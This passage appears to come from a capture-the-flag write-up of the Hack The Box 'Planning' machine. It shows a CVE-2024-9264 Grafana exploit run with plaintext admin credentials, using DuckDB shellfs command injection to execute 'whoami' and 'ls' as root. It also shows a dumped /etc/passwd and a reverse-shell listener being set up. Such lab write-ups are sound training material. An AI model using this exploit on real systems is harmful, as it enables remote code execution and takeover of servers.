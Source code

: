 ```bash
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
grafana:x:472:0::/home/grafana:/usr/sbin/nologin
```

This one confirmed that the script is working. <br>
&rarr; Gonna check out the current user and content.

```bash
└─$ python3 CVE-2024-9264.py -u admin -p '0D5oT70Fq13EvB5r' -c 'whoami' http://grafana.planning.htb/
[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Executing command: whoami
[+] Successfully ran duckdb query:
[+] SELECT 1;install shellfs from community;LOAD shellfs;SELECT * FROM read_csv('whoami >/tmp/grafana_cmd_output 2>&1 |'):
[+] Successfully ran duckdb query:
[+] SELECT content FROM read_blob('/tmp/grafana_cmd_output'):
root

└─$ python3 CVE-2024-9264.py -u admin -p '0D5oT70Fq13EvB5r' -c 'ls -la' http://grafana.planning.htb/
[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Executing command: ls -la
[+] Successfully ran duckdb query:
[+] SELECT 1;install shellfs from community;LOAD shellfs;SELECT * FROM read_csv('ls -la >/tmp/grafana_cmd_output 2>&1 |'):
[+] Successfully ran duckdb query:
[+] SELECT content FROM read_blob('/tmp/grafana_cmd_output'):
total 64
drwxr-xr-x  1 root    root  4096 Mar  1 18:01 .
drwxr-xr-x  1 root    root  4096 May 14  2024 ..
drwxrwxrwx  2 grafana root  4096 May 14  2024 .aws
drwxr-xr-x  3 root    root  4096 Mar  1 18:01 .duckdb
-rw-r--r--  1 root    root 34523 May 14  2024 LICENSE
drwxr-xr-x  2 root    root  4096 May 14  2024 bin
drwxr-xr-x  3 root    root  4096 May 14  2024 conf
drwxr-xr-x 16 root    root  4096 May 14  2024 public
```

So doing this we have to change the command so we need to reverse shell to make it easier for discovery.

We gonna set up a reverse shell listener via [Penelope](https://github.com/brightio/penelope) tool.

```bash
└─$ penelope -p 3333
[+] Listening for reverse shells on 0.0.0.0:3333 →  127.0.0.1 • 172.xx.xx.xx • 172.xx.xx.xx • 10.10.16.36
- 🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
```
